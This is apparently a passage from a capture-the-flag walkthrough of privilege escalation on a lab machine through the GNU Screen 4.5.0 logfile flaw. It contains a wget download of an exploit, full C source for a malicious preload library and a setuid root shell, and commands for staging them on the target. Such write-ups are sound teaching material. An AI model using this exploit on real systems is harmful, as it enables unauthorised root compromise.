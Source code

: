 ## Privilege Escalation
### Screen 4.5.0 

The vulnerability consists in that the check opens the logfile with full root privileges. This allows us to truncate any file or create a root-owned file with any contents in any directory and can be easily exploited to full root access in several ways.


We download the exploit.

```bash
root@kali:~$ wget https://www.exploit-db.com/download/41154 -O exploit.sh
```

I broke down the exploit, so it was not possible to run it directly.

libhax.c

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

rootshell.c

```c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

We verify that gcc is installed on the target.

```bash
www-data@straylight:/var/www/html/turing-bolo$ which gcc
which gcc
/usr/bin/gcc
www-data@straylight:/var/www/html/turing-bolo$
```

We start a python web server on port 80.

```bash
root@kali:~$ python3 -m http.server 80
```
